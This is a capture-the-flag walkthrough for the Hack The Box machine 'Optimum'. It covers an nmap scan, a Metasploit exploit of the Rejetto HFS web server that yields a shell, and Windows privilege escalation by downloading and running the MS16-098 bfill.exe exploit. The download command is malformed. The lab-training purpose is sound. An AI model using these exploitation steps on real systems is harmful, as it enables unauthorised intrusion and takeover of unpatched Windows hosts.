









# Hack the box - Optimum


&nbsp;<span style="color:#b5e853; font-weight: bold">OS:  </span><b>Windows</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">IP: </span><b>10.10.10.8</b>

&nbsp;<span style="color:#b5e853; font-weight: bold">Difficulity: </span><b>Easy</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Release: </span><b>2017 Mar 18</b>

___

## Port scanning
```
nmap -sC -sV -T4 -oA nmap 10.10.10.8
```



There is only web server running.

## Web exploration

On the main page we can see the link to the vendors page:



On the vendors page we can see that it is Rejetto:



## Exploitation

We can check for potential exploits for rejetto:

```
searchsploit rejetto
```



One module uses metasploit, let's try to execute it:

```
use exploit/windows/http/rejetto_hfs_exec
set rhosts 10.10.10.8
run
```



## User flag

Great! We have a shell. Now it's time to capture user flag:



## Privilege escalation

For privilege escalation we can use windows exploit suggester:



Script found a lot of potential exploits. 2nd exploit seems to work:

Local:
```
wget https://www.exploit-db.com/download/41020](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-098/bfill.exe
```

Target:
```
upload bfill.exe
shell
bfill.exe
```



## Root flag

We have system user. Time to capture root flag:

